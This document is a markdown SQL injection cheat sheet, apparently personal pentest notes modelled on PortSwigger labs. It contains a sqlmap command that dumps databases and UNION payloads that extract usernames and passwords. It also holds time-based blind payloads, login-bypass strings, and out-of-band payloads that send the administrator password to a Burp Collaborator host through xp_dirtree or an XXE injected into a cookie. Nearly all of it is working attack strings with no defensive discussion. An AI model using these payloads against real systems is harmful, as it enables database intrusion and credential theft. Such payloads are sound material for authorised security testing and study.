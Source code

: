 # SQL Injection

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--
```

### First detect numbers of columns
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
...
# Oracle
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL, NULL FROM dual--
' UNION SELECT NULL, NULL, NULL FROM dual--

-- o #

```
### Second Find where holds strings data
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```
## Version
```http2
Database type 	              Query
Microsoft, MySQL 	    SELECT @@version
Oracle 	                    SELECT * FROM v$version
PostgreSQL 	            SELECT version() 
```

## Blind SQL Injection:
```sql
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
'IF (1=1) waitfor delay '0:0:10'--
```

## Blind SQL injection using out-of-band (OAST) techniques

```sql
'; exec master..xp_dirtree '//SUBDOMAIN.burpcollaborator.net/a'--
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.SUBDOMAIN.burpcollaborator.net/a"')--
```
## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for https request - Blind:
```http2
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```http2
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
### CheatSheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
